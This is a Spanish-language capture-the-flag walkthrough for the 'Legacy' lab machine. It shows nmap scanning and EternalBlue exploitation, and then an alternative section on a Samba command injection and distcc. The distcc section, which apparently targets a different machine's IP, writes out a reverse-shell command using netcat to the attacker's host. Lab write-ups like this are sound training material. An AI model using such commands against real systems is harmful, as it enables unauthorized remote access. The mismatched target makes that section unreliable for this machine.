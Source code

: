 # Legacy

Máquina **Legacy** de dificultad **Easy**.

![](../../.gitbook/assets/Legacy.png)

## Enumeración

Primeramente realizamos un escaneo nmap rápido para averiguar los puertos abiertos.

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allPorts
```

![](../../.gitbook/assets/escaneo.png)

Vemos que tenemos abiertos los puertos 135, 139, 445. Realizamos ahora un escaneo mas completo a estos puertos para averiguar versiones y demás.&#x20;

```
sudo nmap -sCV -p135,139,445 10.10.10.4 -oN targeted
```

![](../../.gitbook/assets/escaneo2.png)

Vemos que nos dice que es un Windows XP. como solo tenemos samba vamos a ver si encuentra vulnerabilidades conocidas.

```
nmap --script "vuln and safe" -p445 10.10.10.4 -oN smbScan
```

![](../../.gitbook/assets/smbScan.png)

Vemos que nos encuentra la famosa vulnerabilidad MS17-010, **Eternal Blue**.

## Explotación

Buscamos en google posibles exploit de esta vulnerabilidad.

![](../../.gitbook/assets/google\_blue1.png)

Vemos que la primera opción, **AutoBlue**, es en python3.&#x20;

![](../../.gitbook/assets/google\_blue2.png)

![](../../.gitbook/assets/explotacion.png)

Comprobamos que nos hemos conectado y que estamos en la maquina objetivo como **root**.

No tenemos pues que escalar privilegios. Hacemos un tratamiento de la tty con la siguiente secuencia de comandos:

```
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189
```

A continuación obtenemos las flags de user y de root.

![](../../.gitbook/assets/explotacion2.png)

Y damos la máquina por terminada.

## Otras formas de explotación

### Con SMBCLIENT

Buscamos exploit con searchexploit y encontramos uno de metasploit.&#x20;

![](../../.gitbook/assets/msf.png)

Lo examinamos y vemos que lanza un comando como username anteponiendo **nohup** en el usuario y ademas tiene que ser SBMv1.

![](../../.gitbook/assets/exp\_msf.png)

Podemos entonces lanzar lo mismo con smbclient.

![](../../.gitbook/assets/explotacion3.png)

### Explotando DISTCCC puerto 3632

Buscamos en Google "distccc exploit" y observamos que aparece en **hacktricks**.

![](../../.gitbook/assets/hacktricks.png)

Probamos con nmap como nos indica el articulo. En el comando ponemos la shell inversa.

```
nmap -p3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc 10.10.14.31 443 -e /bin/sh'"
```

